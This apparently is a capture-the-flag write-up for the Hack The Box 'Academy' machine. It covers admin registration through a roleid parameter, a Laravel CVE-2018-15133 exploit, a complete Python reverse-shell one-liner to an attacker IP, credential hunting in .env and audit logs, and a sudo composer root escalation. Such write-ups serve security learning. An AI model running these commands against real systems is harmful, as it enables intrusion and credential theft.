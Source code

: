 Academy
==========================================
Enumeration
--------------
Let's start with scanning open ports using Nmap
![alt_text](https://github.com/Healops/Writeups/blob/main/Academy/Images/Nmap.PNG "Scan results")
We can see three open ports with SSH, HTTP and Mysqlx services  

We need to add academy.htb in /etc/host and then we can explore the web page
![alt_text](https://github.com/Healops/Writeups/blob/main/Academy/Images/Academy%20web.PNG)

After register a new user we can see content of main page
![alt_text](https://github.com/Healops/Writeups/blob/main/Academy/Images/Academy%20login.PNG)
There are nothing interesting on it

Using gobuster for directory bruteforce didn't give results but wfuzz with following command showed admin.php page
````
wfuzz -z file,/usr/share/wordlists/wfuzz/general/common.txt -u http://academy.htb/FUZZ.php --hc 404
````
![alt_text](https://github.com/Healops/Writeups/blob/main/Academy/Images/wfuzz.PNG)

There is roleid parameter in registry form request. Some experiments with it let us register an administrator user.
![alt_text](https://github.com/Healops/Writeups/blob/main/Academy/Images/Burp%20register.PNG)
****
![alt_text](https://github.com/Healops/Writeups/blob/main/Academy/Images/Adm%20register%20new.png)

Foothold
----------------------
Now we can login as created user on admin.php
![alt_text](https://github.com/Healops/Writeups/blob/main/Academy/Images/Academy%20louch%20panel.PNG)

There is interesting web page dev-staging-01.academy.htb, we can add it to /etc/host and check its content
![alt_text](https://github.com/Healops/Writeups/blob/main/Academy/Images/Admin%20panel.PNG)

After some search on the page i noticed "laravel.log" on exception message and then found CVE-2018-15133 that allows to execute code on a vulnerable laravel application 

There are several exploits for this CVE, i'll use this [python sctipt](https://github.com/aljavier/exploit_laravel_cve-2018-15133)
![alt_text](https://github.com/Healops/Writeups/blob/main/Academy/Images/pwn_laravel.PNG)

We need API_KEY to exploit the application, luckily we can find it at the dev-staging page
![alt_text](https://github.com/Healops/Writeups/blob/main/Academy/Images/app_key.PNG)

Now we can execute some code in interractive mode using the exploit
![alt_text](https://github.com/Healops/Writeups/blob/main/Academy/Images/pwn_laravel_int.PNG)

There is python3 on the system and we can get revers-shell using following command:
``````
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.8",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
``````
Now we are in the system as www-data  
![alt_text](https://github.com/Healops/Writeups/blob/main/Academy/Images/whoami.PNG)

User1
------------
Using the recursive grep command in the web-app directory to find some passwords didn't give any results, but there are some hidden files in directory so we can check it and find some password in .env file  
![alt_text](https://github.com/Healops/Writeups/blob/main/Academy/Images/env%20pas.PNG)

There are several users on the system
```
www-data@academy$ ls /home/
ls /home/
21y4d  ch4p  cry0l1t3  egre55  g0blin  mrb3n
```
Login attempt with the cry0l1t3 user was successed and we got the user.txt flag  
![alt_text](https://github.com/Healops/Writeups/blob/main/Academy/Images/user%20flag.PNG)

User2
---------
Cry0l1t3 is in the adm group in the system so he can read files in /var/log  
![alt_text](https://github.com/Healops/Writeups/blob/main/Academy/Images/adm%20group.PNG)

Let's use [LinPEAS.sh](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) to find some privilege escalation vector
We need to start http-sever on Kali using following command
````
Python -m SimpleHTTPServer
````
And then we can download the script to the victim system using wget
````
wget http://10.10.14.8:8000/linpeas.sh
````

LinPEAS shows us some interesting information in /var/log about user mrb3n  
![alt_text](https://github.com/Healops/Writeups/blob/main/Academy/Images/linpeas%20pass.PNG)
The script found his password in /var/log/audit logs
![alt_text](https://github.com/Healops/Writeups/blob/main/Academy/Images/mrb3n%20pass.jpg)

TF=$(mktemp -d)
echo '{"scripts":{"x":"/bin/sh -i 0<&3 1>&3 2>&3"}}' >$TF/composer.json
sudo composer --working-dir=$TF run-script x

